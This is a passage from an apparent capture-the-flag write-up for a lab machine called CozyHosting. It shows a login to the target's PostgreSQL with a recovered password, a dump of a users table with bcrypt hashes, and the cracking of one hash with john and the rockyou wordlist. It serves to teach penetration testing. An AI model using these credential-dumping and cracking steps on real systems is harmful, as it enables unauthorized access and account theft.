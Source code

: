 Using this information we can assume there may be a `postgres` port open on the target machine and try to log in with the credentials:

```
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
psql -h 127.0.0.1 -U postgres
Password for user postgres: Vg&nvzAQ7XxR

\list
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

```

Success, now let's search more.

We find a `users` table in the `cozyhosting` database containing the "admin" password and "kanderson" password. These are hashed so we must unhash them.

```
\c cozyhosting
You are now connected to database "cozyhosting" as user "postgres".
\d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)

select * from users; 
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
(2 rows)

```

To unhash, I save the passwords to `hash.txt` and run them on `john` (a new tool to me so wanted to try it). Using ChatGPT, I determined what type of encryption the hash is. It is encrypted with `bcrypt`.

Using `john` to crack the hashes, it found one password I can try "manchesterunited".

```
-[Thu Feb 29-10:50:39]-[table@parrot]-
-[~]$ john --format=bcrypt  --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?) 
```
